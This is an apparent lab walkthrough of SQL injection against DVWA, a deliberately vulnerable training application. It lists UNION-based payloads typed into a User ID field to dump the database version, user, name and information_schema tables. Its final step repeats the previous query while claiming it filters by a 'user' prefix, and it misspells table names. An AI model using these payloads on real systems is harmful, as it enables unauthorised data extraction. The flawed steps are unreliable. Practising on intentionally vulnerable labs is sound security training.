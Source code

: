 INJECTION

1. Type in " 1 " in User ID

DVWA will show ID, first name and surname on screen.

SCENARIOS

1. Type in " %' or '0'='0 " in User ID

By typing in above, DVWA will show all the true scenarios and false scenarios.

DATADBASE VERSION

1. Type in " %' or 0=0 union select null, version () # " in User ID

It will show first name, surname and in the last roll it will show database followed behind surname.

DATABASE USER

1. Type in " %' or 0=0 union select null, user () # " in User ID

In the last roll it is supposed to show  database user that executed the command.

DATABASE NAME

1. Type in " %' or 0=0 union select null, database () # " in User ID

In the last roll it is supposed to show  surname.

ALL TABLES IN INFORMATION_SCHEMA

1. Type in " %' or 1=0 union select null, table_name from informaiton_schema. tables # " in User ID

It is supposed to show all the tables in the information_schema behind surname. It is about all the other databases that MySQL server maintains.

USER TABLES IN INFORMATION_SCHEMA

1. Type in " %' or 1=0 union select null, table_name from informaiton_schema. tables # " in User ID

DVWA will display all the tables that start with the prefix "user" in the information_schema database.

Due to the lack of filtering, attackers are able to access lots of infos by type in Mysql functions.